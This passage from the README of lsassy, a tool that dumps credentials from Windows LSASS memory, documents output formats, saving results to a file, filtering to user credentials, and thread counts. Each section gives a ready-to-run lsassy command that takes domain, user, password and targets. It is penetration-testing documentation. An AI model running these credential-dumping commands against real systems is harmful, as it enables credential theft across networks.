 ### Output

#### Screen format

**lsassy** can output credentials in different formats using `--format` or `-f` flag

##### Pretty

Default format, nice and clean credentials are displayed with golden colors. In credz we trust.

```
lsassy [-d domain] -u user -p password --format pretty targets
```

##### Json

Displays result in json format. Can be useful when called from a script
```
lsassy [-d domain] -u user -p password --format json targets
```

##### Grep

Grepable output that can be useful in one-liners

```
lsassy [-d domain] -u user -p password --format grep targets
```

##### None

Doesn't display the result. Useful when using `--outfile`
```
lsassy [-d domain] -u user -p password targets --format none
```

#### Save in a file

Saves the result in a grepable format in provided file (`--outfile` or `-o`)
```
lsassy [-d domain] -u user -p password targets --format json --outfile /tmp/credentials.txt
```

#### Results filtering

If you want to only get users credentials, filtering out computers credentials, you can use `--users` flag
```
lsassy [-d domain] -u user -p password targets --users
```

#### Thread management

You can decide how many thread you want to use \[1-256\] using `--threads` parameter.

```
lsassy [-d domain] -u user -p password targets --threads 32
```
